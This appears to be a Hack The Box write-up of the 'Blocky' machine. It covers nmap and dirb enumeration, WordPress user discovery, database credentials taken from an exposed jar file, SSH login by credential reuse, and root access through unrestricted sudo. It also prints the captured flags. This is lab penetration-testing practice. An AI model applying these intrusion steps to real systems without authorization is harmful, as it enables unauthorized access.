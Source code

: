# Blocky

### Challenge: FullPWN

### Tools: nmap, dirb, jd-gui

### Vulnerabilities: wordpress, php, credentials


Starting off we have a few open ports. I first tested the ftp login for anonymous but that didn't work. So I tried accessing the website but kept getting issues.

```console
└──╼ [★]$ sudo nmap -sC -sV -A 10.129.67.120
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-23 17:57 BST
Nmap scan report for 10.129.67.120
Host is up (0.011s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE  SERVICE VERSION
21/tcp   open   ftp?
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp   open   http    Apache httpd 2.4.18
|_http-title: Did not follow redirect to http://blocky.htb
|_http-server-header: Apache/2.4.18 (Ubuntu)
8192/tcp closed sophos
Device type: general purpose|specialized|storage-misc|WAP|printer
Running (JUST GUESSING): Linux 3.X|4.X|2.6.X (94%), Crestron 2-Series (89%), HP embedded (89%), Asus embedded (88%)
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 cpe:/o:crestron:2_series cpe:/h:hp:p2000_g3 cpe:/o:linux:linux_kernel cpe:/h:asus:rt-ac66u cpe:/o:linux:linux_kernel:2.6.22 cpe:/o:linux:linux_kernel:3.4
Aggressive OS guesses: Linux 3.10 - 4.11 (94%), Linux 3.16 (93%), Linux 4.2 (93%), Linux 4.4 (93%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 - 4.6 (91%), Linux 3.2 - 4.9 (91%), Linux 3.18 (90%), Linux 3.2 - 3.8 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8192/tcp)
HOP RTT      ADDRESS
1   17.78 ms 10.10.14.1
2   16.72 ms 10.129.67.120

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 240.66 seconds
```

A quick change to my hosts table will fix the redirect and allow us to access the site.

```console
└──╼ [★]$ sudo vim /etc/hosts
```
Add the following to the last line in the file.

```console
10.129.67.120 blocky.htb
```
We have a couple of links on the site including one for a login.

![image](https://user-images.githubusercontent.com/105310322/186245120-6ea699e9-7c27-4529-a551-060309b9656b.png)

![image](https://user-images.githubusercontent.com/105310322/186247909-49521513-6f0b-4ea2-b9c4-31a88c92ef57.png)



Since the login page is running wordpress we can do some enumeration. After running it we find 1 user "Notch". I thought maybe the user had a weak password so I tried a little of that and even tried the lost password section to see if I could capture something there. No luck. So lets see if dirb finds anything else.

```console
└──╼ [★]$ nmap -v --script http-wordpress* blocky.htb -p 80
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-23 19:31 BST
NSE: Loaded 3 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 19:31
Completed NSE at 19:31, 0.00s elapsed
Initiating Ping Scan at 19:31
Scanning blocky.htb (10.129.67.120) [2 ports]
Completed Ping Scan at 19:31, 0.02s elapsed (1 total hosts)
Initiating Connect Scan at 19:31
Scanning blocky.htb (10.129.67.120) [1 port]
Discovered open port 80/tcp on 10.129.67.120
Completed Connect Scan at 19:31, 0.00s elapsed (1 total ports)
NSE: Script scanning 10.129.67.120.
Initiating NSE at 19:31
Completed NSE at 19:31, 8.24s elapsed
Nmap scan report for blocky.htb (10.129.67.120)
Host is up (0.018s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-wordpress-users: 
| Username found: notch
|_Search stopped at ID #25. Increase the upper limit if necessary with 'http-wordpress-users.limit'
| http-wordpress-enum: 
| Search limited to top 100 themes/plugins
|   plugins
|     akismet 3.3.2
|   themes
|     twentyfifteen 1.8
|     twentysixteen 1.3
|_    twentyseventeen 1.3
```


The dirb reveals alot of info. With most of them not meaning much I finally got some headway in the /plugins section of the site that led to 2 jar files.

```console
└──╼ [★]$ dirb http://blocky.htb /usr/share/dirb/wordlists/big.txt

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Aug 23 19:48:05 2022
URL_BASE: http://blocky.htb/
WORDLIST_FILES: /usr/share/dirb/wordlists/big.txt

-----------------

GENERATED WORDS: 20458                                                         

---- Scanning URL: http://blocky.htb/ ----
==> DIRECTORY: http://blocky.htb/javascript/                                   
==> DIRECTORY: http://blocky.htb/phpmyadmin/                                   
==> DIRECTORY: http://blocky.htb/plugins/                                      
+ http://blocky.htb/server-status (CODE:403|SIZE:298)                          
==> DIRECTORY: http://blocky.htb/wiki/                                         
==> DIRECTORY: http://blocky.htb/wp-admin/                                     
==> DIRECTORY: http://blocky.htb/wp-content/                                   
==> DIRECTORY: http://blocky.htb/wp-includes/                                  
                                                                               
---- Entering directory: http://blocky.htb/javascript/ ----
==> DIRECTORY: http://blocky.htb/javascript/jquery/                            
                                                                               
---- Entering directory: http://blocky.htb/phpmyadmin/ ----
==> DIRECTORY: http://blocky.htb/phpmyadmin/doc/                               
+ http://blocky.htb/phpmyadmin/favicon.ico (CODE:200|SIZE:22486)               
==> DIRECTORY: http://blocky.htb/phpmyadmin/js/                                
+ http://blocky.htb/phpmyadmin/libraries (CODE:403|SIZE:305)                   
==> DIRECTORY: http://blocky.htb/phpmyadmin/locale/                            
+ http://blocky.htb/phpmyadmin/setup (CODE:401|SIZE:457)                       
==> DIRECTORY: http://blocky.htb/phpmyadmin/sql/                               
==> DIRECTORY: http://blocky.htb/phpmyadmin/templates/                         
==> DIRECTORY: http://blocky.htb/phpmyadmin/themes/                            
                                                                               
---- Entering directory: http://blocky.htb/plugins/ ----
==> DIRECTORY: http://blocky.htb/plugins/assets/                               
==> DIRECTORY: http://blocky.htb/plugins/files/                                
                                                                               
---- Entering directory: http://blocky.htb/wiki/ ----
                                                                               
---- Entering directory: http://blocky.htb/wp-admin/ ----
==> DIRECTORY: http://blocky.htb/wp-admin/css/                                 
==> DIRECTORY: http://blocky.htb/wp-admin/images/                              
==> DIRECTORY: http://blocky.htb/wp-admin/includes/                            
==> DIRECTORY: http://blocky.htb/wp-admin/js/                                  
==> DIRECTORY: http://blocky.htb/wp-admin/maint/                               
==> DIRECTORY: http://blocky.htb/wp-admin/network/                             
==> DIRECTORY: http://blocky.htb/wp-admin/user/                                
                                                                               
---- Entering directory: http://blocky.htb/wp-content/ ----
==> DIRECTORY: http://blocky.htb/wp-content/plugins/                           
==> DIRECTORY: http://blocky.htb/wp-content/themes/                            
==> DIRECTORY: http://blocky.htb/wp-content/uploads/                           
                                                                               
---- Entering directory: http://blocky.htb/wp-includes/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
---- Entering directory: http://blocky.htb/javascript/jquery/ ----
+ http://blocky.htb/javascript/jquery/jquery (CODE:200|SIZE:284394)            
                                                                               
---- Entering directory: http://blocky.htb/phpmyadmin/doc/ ----
==> DIRECTORY: http://blocky.htb/phpmyadmin/doc/html/                          
                                                                               
---- Entering directory: http://blocky.htb/phpmyadmin/js/ ----
==> DIRECTORY: http://blocky.htb/phpmyadmin/js/jquery/                         
==> DIRECTORY: http://blocky.htb/phpmyadmin/js/pmd/                            
==> DIRECTORY: http://blocky.htb/phpmyadmin/js/transformations/                
                                                                      
```  

In blockycore.jar we have a small file that reveals a sqlpass and sqluser.

![image](https://user-images.githubusercontent.com/105310322/186242875-61349b7a-819b-4972-958f-88b233bcfbff.png)


Since there was an ssh port open we can try that first. Root doesnt work so I try notch instead and we get in and can cat that sweet sweet user flag.

```console
└──╼ [★]$ ssh notch@blocky.htb
The authenticity of host 'blocky.htb (10.129.67.120)' can't be established.
ECDSA key fingerprint is SHA256:lg0igJ5ScjVO6jNwCH/OmEjdeO2+fx+MQhV/ne2i900.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'blocky.htb,10.129.67.120' (ECDSA) to the list of known hosts.
notch@blocky.htb's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Fri Jul  8 07:24:50 2022 from 10.10.14.29
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

notch@Blocky:~$ ls
minecraft  user.txt
notch@Blocky:~$ cat user.txt
0f10d469927782d02fa148d543bdb3ab
notch@Blocky:~$ 
```
Whenever I get into a machine as a user I always like to check my sudo permissions. This 1 was a suprise since it can run everything as sudo. 1st time for everything on HTB.

By running an easy sudo /bin/bash we quickly become root and cat the root flag!

```console
notch@Blocky:~$ sudo -l
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
notch@Blocky:~$ sudo /bin/bash
root@Blocky:~# 
```
```console
root@Blocky:/root# ls
root.txt
root@Blocky:/root# cat root.txt
46ea558791cc4b4319e8eb4860b37c64
root@Blocky:/root# 
```

GG!
